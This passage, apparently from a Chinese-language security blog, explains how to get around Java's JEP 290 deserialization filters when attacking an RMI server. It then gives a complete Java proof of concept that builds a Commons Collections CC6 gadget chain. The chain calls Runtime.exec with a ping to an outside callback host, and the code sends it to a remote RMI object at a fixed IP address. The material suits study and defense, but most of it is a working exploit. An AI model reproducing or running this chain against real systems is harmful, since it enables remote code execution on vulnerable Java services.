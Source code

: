 DGC 的初始化也是同理的，那么从代码层面来看，不难发现，JEP 290 的这两个过滤代码，只影响被攻击侧是 Registry 以及 Server（仅是 DGC 侧）的情况，那么它没有防护的地方就是针对于 Server 端以及 Client 端的攻击，自然而然绕过方式也是从这两点去延伸，其实这两个东西之前就记录过，一个是“RMI 反序列化 Attack”一文中提到的客户端攻击服务端的扩展方式，而另一个点更像是在问如何让一个 Server 端马马虎虎变成一个 Client 端？这就是上篇文章“记录 RMI 引出的 Gadgets”中的东西。

## 针对于 Server 端的攻击

将 JDK 版本换到 8u121，还是老样子，先去测试参数类型为 Object 的，这次用 CC6 去攻击-->

```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.apache.commons.collections4.map.LazyMap;
import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class ClientAttackServer {

    private static HashMap getPayload() throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacetab.top"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> lazyMap = LazyMap.lazyMap(map, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "abc");
        HashMap<TiedMapEntry,Integer> entryMap = new HashMap<TiedMapEntry,Integer>();
        Class<?> clazzTiedMapEntry = tiedMapEntry.getClass();
        Field field = clazzTiedMapEntry.getDeclaredField("map");
        field.setAccessible(true);
        field.set(tiedMapEntry,new HashMap());
        entryMap.put(tiedMapEntry, 1);
        field.set(tiedMapEntry,lazyMap);
        return entryMap;
    }

    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("172.23.254.68", 1099);
        IRemoteObject helloRemoteObject = (IRemoteObject)registry.lookup("helloRemoteObject");
        System.out.println(helloRemoteObject.sayHello(getPayload()));
    }
}
```
